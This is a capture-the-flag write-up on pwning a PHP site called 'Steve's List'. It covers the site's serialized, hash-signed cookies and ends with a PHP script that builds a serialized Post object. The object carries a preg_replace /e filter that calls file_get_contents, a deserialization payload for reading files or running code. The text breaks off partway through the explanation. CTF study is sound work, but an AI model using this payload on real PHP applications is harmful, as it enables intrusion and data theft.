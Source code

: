 # Steve's List

What a fun challenge! We have a pwned website and we have to figure out how to pwn it as well.

## Recon
Looking at the `steves_list_backup.zip` we see the following files:
```
$ ls
cookies.php  includes  index.php  posts  root_data.php  Steve.png  templates
```

The first file to note is `cookies.php`:
```php
  2   if (isset($_COOKIE['custom_settings'])) {
        ...
 16     }
 17   } else {
 18     $custom_settings = array(0 => true);
 19     setcookie('custom_settings', urlencode(serialize(true)), time() + 86    400 * 30, "/");
 20     setcookie('custom_settings_hash', sha1(AUTH_SECRET . serialize(true)    ), time() + 86400 * 30, "/");
 21   }

```
Lines 19 and 20 show that if the cookie `custom_settings` isn't set aka first visit to the website, then two cookies are set: `custom_settings` and `custom_settings_hash`.

This can be verified in Google Chrome via the developer console (`Right Click -> Inspect Element -> 'Console'`)
```
> document.cookie
"custom_settings=b%253A1%253B; custom_settings_hash=2141b332222df459fd212440824a35e63d37ef69"
```

Also, because we have the source code, we know what these values mean:
`custom_settings` - urlencode(serialize(true))


Line 5 of the same file is of key importance to us.

```php
<?php
require_once('steves_list_backup/includes/classes.php');
$filter = [new Filter('/^(.*)/e', 'file_get_contents(\\\'{}\\\')')];

$text = "file_get_contents";
$text = htmlspecialchars($text);

$title = "yay_flag";
$title = htmlspecialchars($title);

$post = new Post($title, $text, $filter);

$post_ser = serialize($post);

$ser = $post_ser;
echo $ser;
?>
```
